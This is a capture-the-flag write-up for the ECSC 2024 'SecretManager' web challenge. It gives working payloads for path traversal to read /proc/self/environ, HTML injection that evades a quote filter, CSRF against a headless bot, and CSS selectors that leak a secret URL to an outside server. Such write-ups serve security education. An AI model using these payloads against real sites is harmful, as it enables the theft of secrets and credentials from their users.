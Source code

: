 # ECSC 2024 - Jeopardy

## [web] SecretManager (4 solves)

We developed a new service, but we don't like bots...

This is a remote challenge, you can connect with:

Site: [http://secretmanager.challs.todo.it](http://secretmanager.challs.todo.it)

Author: Stefano Alberto <@Xatophi>

## Overview

The challenge consists of three main components:

- The password-protected React application for creating and retrieving secrets
- A paywall that allows authorized users to obtain the password to access the application
- A service that allows a url to be reported to a headless bot

## Solution

### Get the app password

First, it is necessary to obtain the application password, doing so would require passing a series of captcha challenges.

![captcha challenge](writeup/captcha.png)

As the size of the captcha increases, it can no longer be resolved due to approximation errors in the generated numbers. In fact, to generate the captcha the string of random digits is converted to Number using the parseInt function.
This mechanism on large numbers causes the least significant digits to be approximated, making it impossible to solve the challenge accurately.

To recover the challenge, it is possible to exploit a path traversal in the paywall api, specifically in the username, which is present in this portion of the code.

```js
app.get('/captcha.png', (req, res) => {
    res.setHeader('Content-Type', 'image/png');
    res.send(fs.readFileSync(path.join( '/tmp/', req.session.user)));
});
```

The password is found among the server environment variables, to obtain it, simply log in with the username `x/../../proc/self/environ` and make a request to `/captcha.png` to read the environment variables.

### Leak the flag url

The flag is saved as a secret in the application by the headless bot before visiting the url provided by the user.

#### HTML injection

The paywall also offers a payment page reachable to `/pay` and vulnerable to HTML injection. Scripts cannot be executed because of the CSP header returned by the server.

To inject arbitrary HTML tags, it is necessary to bypass the filter that does not allow the `"` character in inputs entered in the HTML template.

On the payment page it is possible to have two injection points that filter only the `"` character, the username and the `card` paramenter.

```html
<script nonce="<%- nonce %>">
    document.getElementById('logout-btn').addEventListener('click', () => {
    if (confirm("Are you sure to logout as <%- user.replaceAll('"', '') %>? Your progress will be lost.")) {
        window.location.href = '/logout';
    }
    });
</script>
```

```html
<input class="form-control my-2" id="card" name="card" value="<%- card.replaceAll('"','') %>" required>
```

By exploiting the HTML comments `<!--` and both injection points it is possible to insert arbitrary HTML tags.

For example, the two payloads to perform the injection are given:

- username: `aaa<!--<script>`
- card: `aa--></script><b>arbitrary html</b>`

#### CSRF

To set the username we need to perform the attack on the bot's browser, we need to perform a CSRF on the login.

This is done by serving a web page with this content for the bot to visit.

```html
<form id=test action="https://secretmanager.xyz/login" method="post">
    <input name="username" value="aaa<!--<script>">
</form>

<script>test.submit()</script>
```

#### Leak the flag URL

CSP allows for arbitrary styles, this would allow us to get the flag address character by character by leveraging CSS rules to make requests to one of our servers.

If we can insert this style rule into a page that contains a link to the flag secret, it is possible to leak the url one character at a time.

```html
<style>
    a[href*=secret\\/a] { background: url(//my-server/?c=a); }
    a[href*=secret\\/b] { background: url(//my-server/?c=b); }
    a[href*=secret\\/c] { background: url(//my-server/?c=c); }
    ...
</style>
```

To import the flag we can force the browser to render the React application without violating the CSP in this way.

```html
<div id=root></div><script type=module crossorigin src=/app/static/js/main.87ffa16d.js></script>
```

Finally, to force react-router-dom to load the page we are interested in (/app/list) containing the leaks to the secret with the flag, we can insert this iframe into the same page.

```html
<iframe name=defaultView src=/app/my-secrets></iframe>
```

The HTML tags to be injected to get the leak of the first character of the flag id is as follows.

```html
<iframe srcdoc='
    <iframe name=defaultView src=/app/my-secrets></iframe>
    <style>
        a[href*=secret\\/a] { background: url(//my-server/?c=a); }
        a[href*=secret\\/b] { background: url(//my-server/?c=b); }
        a[href*=secret\\/c] { background: url(//my-server/?c=c); }
        ...
    </style>
    <div id=root></div>
    <script type=module crossorigin src=/app/static/js/main.87ffa16d.js></script>
'></iframe>
```

By repeating this process for each character, the entire flag id can be obtained with which the flag can be retrieved with a simple GET request to `/api/secret/FLAG_ID`.

#### Putting all together

To exploit the challenge, we need to have the headless bot visit the following page.

index.html

```html
<script>
    window.open("/expl.html"); // CSRF on the username
    window.open("https://user:APP_PASSWORD@secretmanager.xyz/app"); // to log in the app the bot browser

    setTimeout(() => {{
        location.href = "https://user:APP_PASSWORD@secretmanager.xyz/app/pay?card=a--%3E%3C/script%3E%3Ciframe%20srcdoc=..."; // exploit page
    }} , 1000);
</script>
```

And exploit the CSRF on the username with this page.

expl.html

```html
<form id=test action="{URL}/login" method="post">
    <input name="username" value="aaa<!--<script>">
</form>

<script>test.submit()</script>
```
